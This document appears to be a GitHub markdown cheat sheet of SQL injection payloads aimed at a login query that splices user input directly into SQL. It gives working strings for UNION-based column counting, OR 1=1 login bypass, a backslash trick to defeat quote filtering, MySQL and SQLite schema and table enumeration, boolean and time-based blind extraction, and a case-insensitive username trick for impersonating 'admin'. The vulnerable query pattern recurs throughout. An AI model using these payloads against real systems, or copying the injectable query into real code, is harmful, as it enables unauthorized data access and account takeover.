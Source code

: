 ###### In the following queries, `'` may not work sometimes, so { **\`**,`"` } can  be tested
###### To comment out the remaining code, { `;#`,`;--`,`;//` } can be used
###### While doing sqli through urls, { `;#`,`;--`,`;//` } need to be encoded specially 

### Finding no of columns in table _(Error-based SQLI)_
  _[Vulnearable code]_ : `SELECT * FROM table_name WHERE username='$input_user' AND pass='$input_pass'`
  
* _[$input_user]_ : `' UNION SELECT 1,2,3.. FROM table_name --`
* _[$input_user]_ : `' ORDER BY n --`  [If we get error for n, then n-1 will be no of columns]
 
### Limiting no of rows
  _[Vulnearable code]_ : `SELECT * FROM table_name WHERE username='$input_user' AND pass='$input_pass'`
  
* _[$input_user]_ : `' OR 1=1 LIMIT 1 --`

### Special Bypassing
* Bypassing filtered `'`__[quote]__

```   
 <?php 
 $name = preg_replace("'","",$name);
 $pass = preg_replace("'","",$pass);
 SELECT * FROM users WHERE username='name' and password='pass'
```
  _[attack]_ => user = `\`  & pass = `OR 1=1 --`

## For Mysql
  _[Vulnearable code]_ : `SELECT * FROM table_name WHERE username='$input_user' AND pass='$input_pass'`
###### Assume no of columns to be 3
#### Finding version and databases
*  _[$input_user]_ : `' UNION SELECT 1,@@version,database() --`

#### Extracting Tables from databases
*  _[$input_user]_ : `' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()`

#### Extracting columns from databases
*  _[$input_user]_ : `' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database()`
*  _[$input_user]_ : `' UNION SELECT table_name, column_name, 1 FROM information_schema.columns`

## For sqlite
 In sqlite __sqlite_master__ replaces __information_schema__
 
  _[Vulnearable code]_ : `SELECT * FROM table_name WHERE username='$input_user' AND pass='$input_pass'`

#### Extracting table names
  _[$input_user]_ : `' UNION SELECT name FROM sqlite_master WHERE type='table'`
#### Extracting column names from a table
  _[$input_user]_ : `' UNION SELECT sql FROM sqlite_master WHERE type='table' AND tbl_name = 'table_name'`

## Blind SQLI
  _[Vulnearable code]_ : `SELECT * FROM table_name WHERE username='$input_user' AND pass='$input_pass'`
  
*  _[$input_user]_ : `' WHERE EXISTS(SELECT * FROM table_name WHERE username LIKE "%a%") --`   [It will ask whether a user with letter "a" or "A" containing in his name]
*  _[$input_user]_ : `' WHERE EXISTS(SELECT * FROM table_name WHERE username LIKE "__a%") --`	 [It will ask whether the letter is at 3rd place or NOT]

  HERE `%`,`_` are WILDCARDS. `%` matches any string and `_` matches only one character

* By default, LIKE is __case-insensitive__

  _[$input_user]_ : `' WHERE EXISTS(SELECT * FROM table_name WHERE username LIKE BINARY "%a%") --` [To make a case sensitive search, use BINARY right after LIKE]

## Time-based Blind SQLI
  _[Vulnearable code]_ : `SELECT * FROM table_name WHERE username='$input_user' AND pass='$input_pass'`

*  _[$input_user]_ : `' OR (SELECT SLEEP(10) FROM table_name WHERE username='something') --`
*  _[$input_user]_ : `' OR IF(username='something',SLEEP(10),0) --`

    [Produces a delayed response if username=`something` exists]
 
## Common-errs
* `mysql` does a case insensitive search by default and also ignores the trailing spaces

   How to exploit that?
   
   A username `Admin` can be created and it can be used to sign-in as `admin`
